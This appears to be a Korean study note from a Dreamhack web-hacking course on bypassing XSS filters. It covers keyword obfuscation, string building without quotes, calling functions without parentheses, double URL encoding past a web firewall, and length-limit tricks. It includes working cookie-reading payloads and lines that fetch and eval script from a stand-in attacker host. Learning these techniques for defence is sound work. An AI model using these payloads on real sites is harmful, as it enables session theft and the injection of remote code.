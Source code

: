 ```yaml
---
layout : single
title : "STAGE2. XSS Filtering Bypass (2)"
categories: web-hacking-advanced
tag: [dreamhack, webhacking]
sidebar:
    nav: "docs"
---
```


# Web Hacking Advanced(Client Side) - XSS Filtering Bypass

- [x] 자바스크립트 함수 및 키워드 필터링
- [x] 디코딩 전 필터링, 길이 제한

## Exploit Tech : XSS Filtering Bypass - 2

### 자바스크립트 함수 및 키워드 필터링

js는 Unicode escape sequence와 Computed member access를 지원한다. 

Unicode escape sequence : "\uAC00" == "가"와 같이 문자열에서 유니코드 문자를 코드포인트로 나타낼 수 있는 표기법

```javascript
var foo = "\u0063ookie";  // cookie
var bar = "cooki\x65";  // cookie
\u0061lert(document.cookie);  // alert(document.cookie)
```

Computed member access : 객체의 특성 속성에 접근할 때 속성 이름을 동적으로 계산하는 기능 ("coo"+"kie" = "cookie")

```javascript
alert(document["\u0063ook" + "ie"]);  // alert(document.cookie)
window['al\x65rt'](document["\u0063ook" + "ie"]);  // alert(document.cookie)
```

따라서, XSS 공격 구문의 자바스크립트 키워드를 필터링한 경우, 우회할 수 있는 방법이 매우 다양하다. 

|구문|대체구문|
|:---|:---|
|alert, XMLHttpRequest 등 문서 최상위 객체 및 함수|window['al'+'ert'], window['XMLHtt'+'pRequest'] 등 이름 끊어서 쓰기|
|window|self, this|
|eval(code)|Function(code)()|
|Function|isNaN['constr'+'uctor'] 등 함수의 constructor 속성 접근|

극단적인 경우, js의 언어적 틀성을 활용하여 6개의 문자 (,),[,],!,+ 만으로 모든 동작을 수행할 수 있다. 이 기법은 cookie와 같이 기존 xss 필터링에서 주로 탐지하는 단어들을 언급하지 않아도 된다는 장점이 있으나, 공격구문의 길이가 늘어난다는 단점이 존재한다.

---

필터링 혹은 인코딩/디코딩 등의 이유로 특정 문자 ((),[],",') 가 제한당한 경우

##### 문자열 선언

1) Template Literals

문자열을 사용할 때 필요한 ", '가 필터링되어있다면, 템플릿 리터럴을 사용할 수 있다. 템플릿 리터럴은 내장된 표현식을 허용하는 문자열 리터럴이며, 여러 줄로 이루어진 문자열과 문자를 보관하기 위한 기능으로 이용할 수 있다. 템플릿 리터럴은 `을 사용하여 선언할 수 있으며, 내장된 ${}표현식을 이용해 다른 변수나 식을 사용할 수 있다.

```javascript
var foo = "Hello";
var bar = "World";
var baz = `${foo},
${bar} ${1+1}.`; // "Hello,\nWorld 2."
```

2) RegExp 객체

/Hello World!/ 형태로 RegExp 객체를 생성하고 객체의 패턴을 가져옴으로서 문자열을 생성

```javascript
var foo = /Hello World!/.source;  // "Hello World!"
var bar = /test !/ + [];  // "/test !/"
```

3) String.fromCharCode

String.fromCharCode는 유니코드의 범위 중 파라미터로 전달된 수에 해당하는 문자를 반환

```javascript
var foo = String.fromCharCode(72, 101, 108, 108, 111);  // "Hello"
```

4) 기본 내장함수, 객체의 문자 사용

원하는 문자열을 만드는 데 필요한 문자들을 내장함수 또는 객체로부터 한 글자씩 가져와 문자열을 만들 수 있다

```javascript
var baz = history.toString()[8] + // "H"
(history+[])[9] + // "i"
(URL+0)[12] + // "("
(URL+0)[13]; // ")" ==> "Hi()"
```

\* history.toString() -> "[object History]" / URL.toString() -> "function URL() { [native code] }" , history+[]; history+0; 와 같이 함수나 객체와 산술 연산을 수행하게 되면 연산을 위해 객체 내부적으로 toString 함수를 호출해 문자열로 변환한 후에 연산을 수행한다. 

5) 숫자 객체의 진법 변환

10진수 숫자를 36진수로 변경하여 아스키 영어 소문자 범위를 모두 생성할 수 있다. 이 때 E4X 연산자 ("..") 를 사용하며, 주로 점 2개를 사용하거나, 소수점으로 인식되지 않도록 공백과 점을 조합하여 사용한다

```javascript
var foo = 29234652..toString(36); // "hello"
var bar = 29234652 .toString(36); // "hello"
```

##### 함수 호출

일반적으로 자바스크립트의 함수를 호출하기 위해서는 소괄호 또는 백틱을 사용해야한다

```javascript
alert(1); // Parentheses
alert`1`; // Tagged Templates
```

소괄호와 백틱문자가 모두 필터링되어 있는 경우

1) javascript 스키마를 이용한 location 변경

javascript: 스키마를 이용하면 URL을 이용해 자바스크립트 코드를 실행시킬 수 있다. 이를 이용해 현재 location 객체를 변조하는 방식으로 자바스크립트 코드를 실행하는 것이 가능하다. 

```javascript
location="javascript:alert\x28document.domain\x29;";
location.href="javascript:alert\u0028document.domain\u0029;";
location['href']="javascript:alert\050document.domain\051;";
```

2) Symbol.hasInstance 오버라이딩

자바스크립트에서는 문자열 이외에도 ECMAScript 6에서 추가된 Symbol 또한 속성의 명칭으로 사용할 수 있다. Symbol.hasInstance well-known symbol을 이용하면, instanceof 연산자를 오버라이드 할 수 있다. 즉, 0 instanceof C를 연산할 때 C에 Symbol.hasInstance 속성에 함수가 있을 경우 메소드로 호출하여 instanceof 연산자의 결과값으로 사용하게 된다. 이 특성을 이용해 instanceof를 연산하게 되면, 실제 인스턴스 체크 대신 원하는 함수를 메소드로 호출되도록 할 수 있다. 

```javascript
"alert\x28document.domain\x29"instanceof{[Symbol.hasInstance]:eval};
Array.prototype[Symbol.hasInstance]=eval;"alert\x28document.domain\x29"instanceof[];
```

3) document.body.innerHTML 추가

document.body.innerHTML 을 통해 HTML 코드를 문서에 추가하여, 이를 통해 자바스크립트를 실행할 수 있다. (script 태그 사용 불가 / 이벤트 핸들러 사용)

```javascript
document.body.innerHTML+="<img src=x: onerror=alert&#40;1&#41;>";
document.body.innerHTML+="<body src=x: onload=alert&#40;1&#41;>";
```

### 디코딩 전 필터링

본래 입력 검증은 디코딩과 같은 모든 전처리 작업을 마치고 수행된다. 예를 들어, 클라이언트의 요청이 웹 방화벽을 거쳐 애플리케이션으로 전달되는 웹 서버의 경우, 웹 방화벽은 요청을 검증해서 XSS 공격 코드를 차단한다. 애플리케이션은 웹 방화벽을 통과한 데이터를 받아 작업을 수행한다. 이 때 애플리케이션은 전달받은 데이터를 다시 디코딩해서 사용하면 안 된다. (공격자가 더블 인코딩으로 웹 방화벽의 검증을 우회할 수 있기 때문)

\* 더블 인코딩 : 보안 제어를 무시하거나, 응용 프로그램에서 예기치 않은 동작을 일으키기 위해 매개변수를 16진수 형식으로 2번 인코딩하는 것으로, 사용자 입력을 한 번만 디코딩하는 보안 필터를 무시한다. 

1. 공격자가 더블 URL 인코딩한 공격 코드 %253Cscript%253E(이하 생략)를 포함하여 게시글 업로드 요청
2. 웹 방화벽이 해당 데이터를 디코딩 후 검증 -> 디코딩 결과인 %3Cscript%3E(이하 생략)는 안전하다고 판단하여 차단하지 않고 애플리케이션에 전달
3. 애플리케이션이 해당 데이터를 또 디코딩하여 < script >(이하 생략)를 게시판 DB에 저장합니다. (검증 후 디코딩 발생)️
4. 해당 게시글을 읽으면 XSS가 발생하여 악성 자바스크립트 코드가 실행

이처럼 웹 방화벽의 검증 이후 다시 디코딩할 경우, 공격자는 더블 URL 인코딩으로 웹 방화벽 검증을 우회할 수 있다. 뿐만 아니라, 애플리케이션 내부의 검증 로직 이후에도 디코딩을 하면 안 되며, 만약 php 애플리케이션 코드에 더블 디코딩 취약점이 존재하면, 더블 URL 인코딩을 이용해 우회하는 것이 가능하다.

```http
POST /search?query=%253Cscript%253Ealert(document.cookie)%253C/script%253E HTTP/1.1
...
-----
HTTP/1.1 200 OK
<h1>Search results for: <script>alert(document.cookie)</script></h1>
```

### 길이 제한

삽입할 수 있는 코드의 길이가 제한되어 있는 경우, 다른 경로로 실행할 추가적인 코드를 URL fragment 등으로 삽입 후 삽입 지점에는 본 코드를 실행하는 짧은 코드를 사용할 수 있다. Fragment로 스크립트를 넘겨준 후 XSS 지점에서 location.hash로 URL의 Fragment 부분을 추출하여 eval()로 샐행하는 기법이 흔히 쓰인다. 그 외에도, 쿠키에 페이로드를 저장하는 방식과 import 와 같은 외부 자원을 스크립트로 로드하는 방법 또한 사용할 수 있다. 

1) location.hash

```
https://example.com/?q=<img onerror="eval(location.hash.slice(1))">#alert(document.cookie); 
```

2) 외부 자원

```javascript
import("http://malice.dreamhack.io");
```

```javascript
var e = document.createElement('script')
e.src='http://malice.dreamhack.io';
document.appendChild(e);
```

```javascript
fetch('http://malice.dreamhack.io').then(x=>eval(x.text()))
```